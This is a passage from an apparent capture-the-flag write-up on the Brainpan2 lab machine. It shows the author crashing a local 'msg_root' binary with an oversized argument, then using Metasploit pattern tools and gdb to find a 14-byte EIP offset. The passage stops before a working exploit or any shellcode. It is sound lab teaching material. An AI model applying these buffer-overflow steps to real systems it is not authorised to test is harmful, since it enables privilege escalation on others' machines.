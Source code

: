 I read the 'readme.txt' file, and attempted to use the tool as it was designed first. It seemed to work.

```
anansi@brainpan2:/home/reynard$ cat readme.txt
msg_root is a quick way to send a message to the root user.
Messages are written to /tmp/msg.txt

usage:
msg_root "username" "this message is for root"
anansi@brainpan2:/home/reynard$ ./msg_root "test" "test"
Your message is test
anansi@brainpan2:/home/reynard$ cat /tmp/msg.txt
test: test
```

I figured the next step would be to try to overflow one of the buffers. I tried the first argument first, and it crashed.

```
anansi@brainpan2:/home/reynard$ ./msg_root $(perl -e 'print "A"x100') hi
Segmentation fault
```

In a temporary terminal on my MacBook, I ran Metasploit's 'pattern_create.rb', to create a unique pattern.

```
➜  tools git:(master) ✗ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

I then used this as the first argument, to get the address that overwrote the EIP.

```
anansi@brainpan2:/home/reynard$ gdb ./msg_root --quiet
Reading symbols from /home/reynard/msg_root...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A hi
Starting program: /home/reynard/msg_root Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A hi

Program received signal SIGSEGV, Segmentation fault.
0x35614134 in ?? ()
```

In the temporary terminal, I then plugged the value into the 'pattern_offset.rb' tool to find the offset to the EIP. It turns out it was quite short, only 14 bytes.

```
➜  tools git:(master) ✗ ./pattern_offset.rb 0x35614134
[*] Exact match at offset 14
```

To verify this, I setup a skeleton command to run as an exploit. I was able to verify that 14 bytes were in fact the offset, since the "B"x4 showed up as 0x42424242, their hex equivilent.
